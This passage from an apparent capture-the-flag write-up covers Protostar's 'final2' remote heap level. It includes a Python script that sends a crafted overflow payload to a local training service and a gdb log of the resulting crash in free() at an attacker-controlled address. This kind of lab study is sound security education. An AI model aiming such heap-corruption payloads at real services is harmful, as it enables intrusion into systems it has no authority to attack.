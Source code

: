 ![Success]({{ site-url }}/assets/post_images/protostar_final1_success.gif)

* * * 

## [final2](https://exploit-exercises.com/protostar/final2/)

> ### About
 > 
> Remote heap level :)

I would prefer a more explicit explanation. Having wrestled with this
level for some time now, it's a shame the folks over at
exploit-exercises didn't make this challenge more explicit; Word on the
street is that the code provided on the website does not represent the
binary found within the system.

The print-statement in the `check_path` function never echoes back either;
so something is probably wrong.

I looked at the author of secwriteups solution to the problem when I
got stuck on this level, I was having some trouble with getting the program
to crash & secwriteups-post helped me a lot in progressing. 
[Link Secwriteups post](http://secwriteups.blogspot.se/2015/02/protostar-final-2.html)

The beginning goal is obviously to make it crash during the call to
free, which we did the previous time we were exploiting dl-malloc.

From there, we can probably poke around enough to make sense of it all
enough to be able to exploit things.

{% highlight python %}
import socket

TARGET=("127.0.0.1", 2993)
s=socket.create_connection(TARGET)
payload='FSRD'+'A'*123+'/' + 'FSRD'+'ROOT/'+'B'*119
s.sendall(payload)
s.close()

{% endhighlight %}

Running the code listed above generated the following crash:

~~~
root@protostar:/home/user# pidof final2
1485
root@protostar:/home/user# gdb -q -p 1485
Attaching to process 1485
[ snip-snip ]
(gdb) c
Continuing.
[New process 27314]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 27314]
0x0804aabf in free (mem=0x804e008) at final2/../common/malloc.c:3643
3643	final2/../common/malloc.c: No such file or directory.
	in final2/../common/malloc.c
0x0804aabf <free+253>:	 8b 40 04	mov    eax,DWORD PTR [eax+0x4]
0x0804aac2 <free+256>:	 83 e0 01	and    eax,0x1
0x0804aac5 <free+259>:	 89 45 e0	mov    DWORD PTR [ebp-0x20],eax
(gdb) x/x nextsize
0x42424240:	Cannot access memory at address 0x42424240
~~~
